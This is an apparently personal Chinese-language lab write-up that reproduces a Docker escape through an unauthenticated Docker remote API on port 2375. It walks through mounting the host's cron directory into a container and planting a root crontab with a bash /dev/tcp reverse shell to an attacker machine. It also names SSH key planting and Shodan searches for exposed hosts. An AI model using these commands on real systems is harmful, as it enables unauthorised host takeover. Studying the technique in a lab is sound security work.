


# Docker逃逸系列1:Docker remote api未授权访问


> docker逃逸第一种方式——remote api未授权访问
>
> 环境：
>
> 宿主机操作系统：Ubuntu 20.04 LTS 192.168.170.129
>
> 执行攻击的主机：Kali，5.9.0-kali1-amd64 192.168.170.128
>
> docker版本：Docker version 20.10.2, build 2291f61

## 步骤1、开启docker remote api

docker remote api应该是一个提供图形化界面来简化操作的功能，通过将宿主机的docker服务通过socket的方式暴露给外部连接，使得其他主机也可以访问docker服务。
### 修改配置，重启服务

```bash
lzy@zyUb:~$ sudo nano /lib/systemd/system/docker.service
[sudo] password for lzy: 
lzy@zyUb:~$ sudo systemctl daemon-reload
lzy@zyUb:~$ sudo service docker restart
```

执行上述命令，在`docker.service`文件中添加以下红线所标出的内容(`-H tcp://0.0.0.0:2375`)



### 查看效果

在另一台虚拟机中查看docker宿主机的2375端口，可以看到相关信息。




## 步骤2、漏洞测试

### 创建容器

查看docker宿主机上已有的镜像

```bash
┌──(lzy㉿kaliForZy)-[~]
└─$ docker -H tcp://192.168.170.129:2375 images
REPOSITORY    TAG       IMAGE ID       CREATED         SIZE
alpine        latest    e50c909a8df2   9 days ago      5.61MB
ubuntu        18.04     c090eaba6b94   2 weeks ago     63.3MB
hello-world   latest    bf756fb1ae65   13 months ago   13.3kB
```

然后创建容器。因为最后反弹shell的实现方式是使用crontab计划任务，所以需要将crontab用到的文件所在路径，也就是宿主机的`var/spool/cron`目录挂载到容器中。

```bash
┌──(lzy㉿kaliForZy)-[~]
└─$ docker -H tcp://192.168.170.129:2375 run -it -v /var/spool/cron/:/get3cad/ c090 /bin/bash
```

ubuntu的crontab相关文件的路径为`var/spool/cron/crontabs/root`，但是我自己装的虚拟机在该路径下并不存在`root`文件。所以在进入到容器中后，要切换到相应路径（也可以在创建容器的时候就使用`chroot`参数），然后创建文件。

```bash
root@22b103440b66:/get3cad/crontabs# touch root
```

需要注意，创建的`root`文件默认是644权限，在crontab执行的时候会被认为是不安全模式。所以需要修改权限为`600`。


```bash
root@22b103440b66:/get3cad/crontabs# chmod 600 root
```

最后往`root`文件中写入反弹shell的计划任务。同时，因为sh与bash环境的不同，需要将命令用`bash -c`包含起来。

```bash
root@22b103440b66:/get3cad/crontabs# echo '* * * * * bash -c "bash -i  >&/dev/tcp/192.168.170.128/7777 0>&1"' >> /get3cad/crontabs/root
```

在攻击者主机中使用nc监听，连接到反弹的shell


除反弹shell之外，在宿主机开启了ssh服务的情况下，还可以通过修改配置文件，放入攻击者公钥的情况下，实现**ssh远程登录**，也可以达到和上述crontab计划任务反弹shell相同的效果。

## 其他收获

- 又发现了几个🐂人的博客
- Linux中执行`sudo -i`切换到sudo模式，就能够cd到权限不够的路径，这个算是回忆吧
- 发现一个很有意思的docker镜像：[busybox](https://hub.docker.com/_/busybox)，小而精悍，瑞士军刀
- 资源网站：[shodan](https://www.shodan.io/)，搜索互联网设备，所以不要轻易将自己的端口暴露在公网。看到这个网站是因为有人没有自己搭环境实现，所以用这个网站搜索现有的开放了远程api的docker环境。从这些博客的尝试结果来看，似乎很多有这一漏洞的docker环境，都被别人植入了挖矿程序。


前前后后花了4 5个小时，踩坑也是踩了蛮多的。网上的相关博客也有很多，除去内容重复的一些后，我觉得比较有参考价值的都放在下面了。

## 参考链接：

- [Docker remote api漏洞公告](https://help.aliyun.com/document_detail/37517.html)
- [开启docker的remote api](https://blog.csdn.net/qq_20453349/article/details/108260472)

- [踩坑：解决ubuntu-crontab反弹shell失败的问题](https://m3lon.github.io/2019/03/18/%E8%A7%A3%E5%86%B3ubuntu-crontab%E5%8F%8D%E5%BC%B9shell%E5%A4%B1%E8%B4%A5%E7%9A%84%E9%97%AE%E9%A2%98/)
- 他人的实现：
  - [🐂人博客之一](https://zgao.top/docker-remote-api%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)
  - [https://www.ouyangxiaoze.com/2020/08/617.html](https://www.ouyangxiaoze.com/2020/08/617.html)
